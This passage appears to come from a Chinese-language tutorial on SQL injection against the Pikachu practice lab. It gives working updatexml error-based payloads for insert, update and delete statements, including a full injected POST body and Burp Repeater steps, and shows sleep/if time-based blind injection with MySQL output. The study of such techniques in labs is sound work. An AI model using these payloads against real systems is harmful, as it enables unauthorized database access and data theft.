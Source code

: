 ```bash
'or updatexml(1,concat(0x7e,database(),0x7e),0) or'
```
```bash
username=xiaodi'or updatexml(1,concat(0x7e,version(),0x7e),0) or'&password=123456&sex=man&phonenum=138&email=%E5%9B%9B%E5%B7%9D&add=%E6%88%90%E9%83%BD&submit=submit
```
注意：将注意语句放在语句的其他位置是可以的注意看网站提交的数据。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624509812656-c2a0812c-c995-42e1-8a5a-f9b5bd747b80.png#clientId=uccd524b0-a72f-4&from=paste&height=226&id=u4ddc29c8&originHeight=452&originWidth=1883&originalType=binary&ratio=2&size=69032&status=done&style=none&taskId=u7739d2ba-ac68-4052-a21e-3e423d700fb&width=941.5)![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624509849134-7c66628a-8c23-4800-9b75-f30ebb020094.png#clientId=uccd524b0-a72f-4&from=paste&height=163&id=ubd96c275&originHeight=326&originWidth=1920&originalType=binary&ratio=2&size=40698&status=done&style=none&taskId=u0111a2f5-e76d-4efc-90d2-52f029df612&width=960)![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624510223004-65c1f43e-29d7-4252-98ac-9fcdd4f8d578.png#clientId=uccd524b0-a72f-4&from=paste&height=224&id=u6ce2c408&originHeight=448&originWidth=1919&originalType=binary&ratio=2&size=89744&status=done&style=none&taskId=ua7c6e680-2686-47b5-a52a-d5188af66e0&width=959.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624510326551-46fbe513-b948-4bd2-94db-b39c6591b935.png#clientId=uccd524b0-a72f-4&from=paste&height=225&id=u581e51b5&originHeight=450&originWidth=1920&originalType=binary&ratio=2&size=88971&status=done&style=none&taskId=u5a93c3fc-a90f-441d-b607-b0a60dd3e77&width=960)
<a name="J5JDn"></a>
#### 2、update语句
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624520379378-f596e154-f224-40ea-97da-ec59dd738ea0.png#clientId=uccd524b0-a72f-4&from=paste&height=198&id=u872c462b&originHeight=395&originWidth=1867&originalType=binary&ratio=2&size=65454&status=done&style=none&taskId=ud447718d-c214-4a40-9192-2ffe375db59&width=933.5)<br />发送到repeter模块当中,修改数据包
```bash
'or updatexml(1,concat(0x7e,database(),0x7e),0) or'
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624520450158-186e35b8-3831-469f-899e-15612eb784ee.png#clientId=uccd524b0-a72f-4&from=paste&height=195&id=u09b2ddc4&originHeight=390&originWidth=1883&originalType=binary&ratio=2&size=74894&status=done&style=none&taskId=ud5103d94-b8fc-4a8e-ac88-b227da0bfab&width=941.5)<br />原理基本一致

<a name="va08r"></a>
#### 3、delete语句
```bash
payload: 68 or updatexml (1,concat(0x7e,datebase()),0)
且在BurpSuite中Ctrl+U 对payload进行url编码
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624520890335-775291ae-952d-4567-af78-b1941a8265c8.png#clientId=uccd524b0-a72f-4&from=paste&height=173&id=u6bab8223&originHeight=345&originWidth=1857&originalType=binary&ratio=2&size=67181&status=done&style=none&taskId=u8ea9471c-7720-4227-a2c7-5a9b3c5e772&width=928.5)
<a name="WYQ8Y"></a>
### 三、SQL时间盲注
<a name="knHaZ"></a>
#### 1、sleep语句
```bash
mysql> select * from member where id=1;
+----+----------+----------------------------------+-------+----------+---------+--------+
| id | username | pw                               | sex   | phonenum | address | email  |
+----+----------+----------------------------------+-------+----------+---------+--------+
|  1 | vince    | e10adc3949ba59abbe56e057f20f883e | admin | asdasd   | 四川    | 成都   |
+----+----------+----------------------------------+-------+----------+---------+--------+
1 row in set (0.00 sec)
mysql>
mysql> select * from member where id=1 and sleep(5);
Empty set (5.00 sec)

mysql>

```
<a name="Dt3Cc"></a>
#### 2、if语句
```bash
mysql> select if(database()='pikachu',123,456);
+----------------------------------+
| if(database()='pikachu',123,456) |
+----------------------------------+
```